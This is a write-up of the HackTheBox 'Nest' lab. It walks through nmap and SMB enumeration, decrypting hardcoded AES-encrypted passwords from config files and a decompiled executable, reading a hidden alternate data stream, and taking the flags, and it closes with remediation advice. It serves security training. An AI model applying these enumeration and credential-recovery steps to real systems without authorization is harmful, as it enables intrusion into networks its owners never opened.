



# NEST



This report walks through the compromise of the **Nest** machine on HackTheBox. By exploiting **SMB share access** and reversing **custom encryption** in Visual Basic binaries, we uncover sensitive credentials. Decompiling a .NET executable eventually reveals the **domain administrator password**, granting full system access.

## Reconnaissance and Enumeration

An initial **Nmap** scan revealed two open ports:

```sh
❯ sudo nmap -sC -sV -T4 -p- -Pn -oA Scans/nmap/nest 10.129.100.232
Command executed at: 2025-03-23 09:42:04
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds? 
4386/tcp open  unknown
...
```

Port 445 indicated an accessible SMB service. Port 4386 returned plain-text prompts and responses, identifying itself as **Reporting Service V1.2**. Using Telnet confirmed it was a custom reporting system supporting simple commands:

```txt
LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
```

### SMB Enumeration

Listing shares anonymously showed six available shares. **Data** and **Users** were readable without credentials:

```sh
❯ crackmapexec smb 10.129.100.232 -u 'Anonymous' -p '' --shares
...
Data     READ
Users    READ
...
```

In **Data**, two text files were found:

- `Welcome Email.txt` contained temporary credentials:

```txt
Username: TempUser
Password: welcome2019
```

Using `TempUser` granted access to the previously restricted **Secure$** share:

```sh
❯ crackmapexec smb 10.129.100.232 -u 'TempUser' -p 'welcome2019' --shares
...
Secure$    READ
...
```

Exploring **Secure$** initially returned a permission denied error. However, a **Notepad++ configuration file** in `Data/IT/Configs/NotepadPlusPlus/config.xml` referenced the path `\HTB-NEST\Secure$\IT\Carl\Temp.txt`, indicating that the **Carl** folder might be accessible despite restrictions on its parent.

Attempting access confirmed this — we successfully listed files inside **Secure$/IT/Carl**, revealing folders like `Docs`, `Reports`, and `VB Projects`.

> **Did You Know? – Granular Folder Permissions**
>
> SMB permissions can be applied at the **subfolder level**. Even if access to a parent directory is denied, specific subfolders (like `Carl` in `Secure$/IT/`) can be accessible if permissions are granted. Always test nested directories when enumeration appears blocked.

## Finding the Encryption Logic

In **Secure$/IT/Carl/VB Projects/WIP/RU/RUScanner**, we found source code for a Visual Basic project. One file, `Utils.vb`, contained the encryption logic for a password stored in **Data/IT/Configs/RU Scanner/RU_config.xml**.

```xml
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
```

The Visual Basic code used **AES-CBC** encryption with a fixed passphrase, salt, and IV. By reversing the process, we decrypted the password.

### Decryptor Script for c.smith Password

```python
# Base64 AES-CBC decryption logic for RU Scanner
passphrase = "N3st22"
salt = b"88552299"
iv = b"464R5DFA5DL6LE28"
...
plaintext = decrypted_bytes.decode('ascii', errors='ignore')
```

**Decrypted password:** `xRxRxPANCAK3SxRxRx`

Using this password, we accessed the **Users** share as `C.Smith` and retrieved the **user flag**:

```sh
❯ cat 'C.Smith/user.txt'
5ccbce418cf3c7dc033148f62fe5ed94
```

## Hidden Data and Debug Mode

In `C.Smith/HQK Reporting`, an empty file called **Debug Mode Password.txt** seemed suspicious. Using `smbclient` to inspect it revealed an **alternate data stream**:

```sh
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
stream: [:Password:$DATA], 15 bytes
```

The hidden stream contained the password:

```txt
WBQ201953D8w
```

Connecting via Telnet to port 4386, we enabled **DEBUG mode** using this password, unlocking additional commands. Listing the **LDAP** query directory revealed a configuration file with the domain administrator’s credentials:

```txt
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

## Decompiling HqkLdap.exe

Returning to SMB, we found **HqkLdap.exe** in `HQK Reporting/AD Integration Module`. Downloading and decompiling it with **dnSpy** revealed a similar AES-CBC encryption scheme but with different constants.



### Decryptor Script for Administrator Password

```python
# Constants for decrypting Administrator password
passphrase = "667912"
salt = b"1313Rf99"
iv = b"1L1SA61493DRV53Z"
...
plaintext = plaintext_bytes.decode("ascii", errors="ignore")
```

**Decrypted password:** `XtH4nkS4Pl4y1nGX`

With this, we accessed the **C$ SMB share** and retrieved the root flag:

```sh
smb: \Users\Administrator\Desktop\> cat root.txt
b3e26dcbb9ac86a07f73e90e8a54a0e2
```



## Findings and Remediation

### Findings

- **Exposed Temporary Credentials:** TempUser access provided further footholds.
- **Hardcoded Credentials:** Encrypted passwords in config files were recoverable.
- **Subfolder Permission Misconfiguration:** Allowed access to Carl’s folder despite Secure$ restrictions.
- **Insecure Software Practices:** Encryption logic in source code and binaries.
- **Alternate Data Streams:** Sensitive data stored in hidden file streams.

### Remediation

- Implement **unique, expiring credentials** for temporary users.
- Use **secure credential storage** solutions instead of embedding credentials.
- Enforce **least privilege** and audit folder permissions.
- Employ **code obfuscation** and secure encryption practices.
- Monitor for **alternate data stream usage** and sanitize files with metadata tools.

## Lessons Learned

This engagement emphasizes how **layered enumeration**, **reverse engineering**, and attention to **uncommon features** like alternate data streams can uncover critical vulnerabilities. Even when passwords are encrypted, access to the algorithm enables attackers to recover credentials. Effective security requires hardening at multiple levels, from user access to code practices.

## Resources

- [HackTheBox - Nest CTF](https://app.hackthebox.com/machines/225)
- [Alternate Data Streams Guide](https://blog.netwrix.com/2022/12/16/alternate_data_stream/)
- [AES Encryption Explained](https://cryptobook.nakov.com/symmetric-key-ciphers/aes-encrypt-decrypt-examples)

---

[⬅ Back to Home](/CTF-Reports/)
